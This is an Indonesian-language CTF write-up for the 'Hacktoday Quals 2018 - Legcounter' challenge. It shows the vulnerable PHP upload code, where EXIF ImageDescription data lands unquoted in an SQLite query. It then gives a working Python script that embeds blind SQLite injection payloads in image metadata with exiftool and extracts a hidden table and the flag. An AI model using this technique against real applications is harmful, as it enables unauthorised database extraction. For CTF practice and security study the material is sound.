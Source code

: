 ```yaml
---
private: 'false'
layout: post
featured: true
published: true
comments: true
modified: 2018-08-05
date: 2018-08-05
title: "Hacktoday Quals 2018 - Legcounter"
tags: [hacktoday]
mathjax: false
category: ctf
description: "Hacktoday Quals 2018 - Legcounter"
chart: null
---
```



### Soal
---

http://103.56.207.107:50001


```php

<?php
include ('init.php');

session_start();
$upload_dir = "uploads/";
$upload_check = 1;
$imageFileType = strtolower(pathinfo($_FILES["legpic"]["name"], PATHINFO_EXTENSION));
$file_ = $upload_dir . md5(random_bytes(32)) . '.' . $imageFileType;

if (isset($_POST["submit"]) && isset($_POST['token'])) {
	$check = getimagesize($_FILES["legpic"]["tmp_name"]);
	if ($check !== false) {
		$upload_check = 1;
	}
	else {
		$upload_check = 0;
	}

	$t = $_POST['token'];
	if ($t != $_SESSION['csrf_token']) {
		die("Token tidak valid!");
	}

	$_SESSION['csrf_token'] = base64_encode(openssl_random_pseudo_bytes(32));
    
    if ($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg" && $imageFileType != "gif") {
		$upload_check = 0;
	}

	if ($upload_check == 0 || !move_uploaded_file($_FILES["legpic"]["tmp_name"], $file_)) {
		die("gagal upload :(");
	}

	$exif = exif_read_data($file_);
	parse_str($exif['ImageDescription'], $exif);
	if(!$exif) die("Gambar tidak valid!");
	$leg = SQLite3::escapeString($exif['leg']);
    
    $db->exec("DELETE FROM Legs Where Session='{$_SESSION['session_token']}';");
	query("INSERT INTO Legs (Session, Leg) VALUES ('{$_SESSION['session_token']}', {$leg})");
	unlink($file_);
    
    $dir = "results/";
	$fname = $dir . sha1(openssl_random_pseudo_bytes(32)) . '.php';
	$f = fopen($fname, "w");
    
    $result = $db->query("SELECT Leg FROM Legs Where Session='{$_SESSION['session_token']}' Limit 1");
	if (count($result) == 1) {
		foreach($result as $res) {
			if ($res['Leg'] == '1') {
				fwrite($f, 'Satu kaki');
			}
			else
			if ($res['Leg'] == '2') {
				fwrite($f, 'Dua kaki');
			}
			else {
				fwrite($f, 'Tidak diketahui');
			}
		}
	}

	fwrite($f, "<?php unlink(__FILE__); ?>");
	fclose($f);
	header("Location: /{$fname}");
	$db = NULL;
}

die();
?>

```

### Writeup
---
Diberikan website yang mempunya fitur untuk upload gambar dan membaca data melalui value dari exif ImageDescription, Jadi gambar yang kita upload akan di proses datanya ketika memiliki value pada "ImageDescription" dan value yang ada di dalamnya akan di passing ke fungsi `parse_str`.


```php

	parse_str($exif['ImageDescription'], $exif);
	if(!$exif) die("Gambar tidak valid!");

```

untuk menambahkan ImageDescription pada gambar kita bisa menggunakan exiftool `exiftool -ImageDescription="leg=1" gambar.jpg` sehingga ketika di upload akan mengembalikan response `Satu kaki`


```php

query("INSERT INTO Legs (Session, Leg) VALUES ('{$_SESSION['session_token']}', {$leg})");

```

pada kode di atas terlihat bahwa input yang kita masukkan dilempar kedalam query, sehingga kita dapat melakukan injeksi, namun terlihat ada filter yang di gunakan untuk mengescape inputan kita menggunakan `$leg = SQLite3::escapeString($exif['leg']);` namun karena input kita tidak di wrap dengan quote di bagian query nya seperti `'{$leg}'` jadi kita dapat melakukan injeksi tanpa menggunakan quote atau double, kemudian kita bisa mengkonstruksikan payload untuk melakukan blind sqlite injection.


```python

import requests
import re
from StringIO import StringIO
from pycurl import *
import os
import pickle

url = "http://103.56.207.107:50001/upload.php"

headers = {
"Cache-Control": "max-age=0", 
"Origin": "http://103.56.207.107:50001", 
"Upgrade-Insecure-Requests": "1", 
"Content-Type": "multipart/form-data", 
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.75 Safari/537.36",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", 
"Referer": "http://103.56.207.107:50001/", 
"Accept-Language": "en-US,en;q=0.9,de;q=0.8,es;q=0.7,id;q=0.6,ms;q=0.5", 
"Connection": "close",
"Cookie": "PHPSESSID=5d42tgrbtj0lifr04f02k3r1e6"
}


def check(data):
	return re.search("Satu kaki", data)

def getToken():
    req = requests.session()
    greptoken = req.get("http://103.56.207.107:50001/", headers=headers)
    token = str(re.search(r"type=\"hidden\" value=\"(.*)\"", greptoken.text).group(1).split("\"")[0]).strip()
    return token

def upload(token):
    c = Curl()
    d = StringIO()
    h = StringIO()
    c.setopt(URL, url)
    c.setopt(POST, 1)
    c.setopt(HTTPPOST, [('legpic', (FORM_FILE, '1leg.jpg')), ('submit', 'Deteksi'), ('token', str(token))])
    c.setopt(COOKIEFILE, 'cookie.txt')
    c.setopt(COOKIEJAR, 'cookie.txt')
    c.setopt(FOLLOWLOCATION, 1)
    c.setopt(WRITEFUNCTION, d.write)
    c.setopt(HEADERFUNCTION, h.write)
    c.perform()
    c.close()
    return d.getvalue()

def blind(kolom,table):
    passwd = ""
    idx = 1

    while (True):
        lo = 1
        hi = 255
        temp = -1
        while(lo <= hi):
            mid = (lo + hi) / 2
            # command = "exiftool -ImageDescription=\"leg=(SELECT CASE when hex(substr({},{},1)) <= hex(char({})) THEN 1 ELSE 2 END FROM {})\" 1leg.jpg".format(str(kolom),str(idx),str(mid),str(table))
            command = "exiftool -ImageDescription=\"leg=(SELECT CASE when hex(substr({},{},1)) <= hex(char({})) THEN 1 ELSE 2 END FROM {}))--+-\" 1leg.jpg".format(str(kolom),str(idx),str(mid),str(table))
            os.system(command)
            res = upload(getToken())

            if check(res):
               hi = mid-1
               temp = mid
            else:
               lo = mid+1
               
        if (hi == 0): break
        passwd += chr(temp)
        print "Result [{}]: {}".format(table,passwd)
        idx += 1

    return passwd
   



# blind("sql","sqlite_master")
# CREATE TABLE Legs (Id INTEGER PRIMARY KEY, Session TEXT UNIQUE, Leg INTEGER)

# blind("name","sqlite_master where name!=char(76,101,103,115) and sql like(char(37,102,108,97,103,37))")
# mysecretflaag

# blind("sql","sqlite_master where name=char(109,121,115,101,99,114,101,116,102,108,97,97,103)")
# CREATE TABLE mysecretflaag (Id INTEGER PRIMARY KEY, thi

blind("this_is_real_flag","mysecretflaag")
#HackToday{blind_sqlite3_injection_via_exif_

```

![Error](../images/legcounter.PNG)
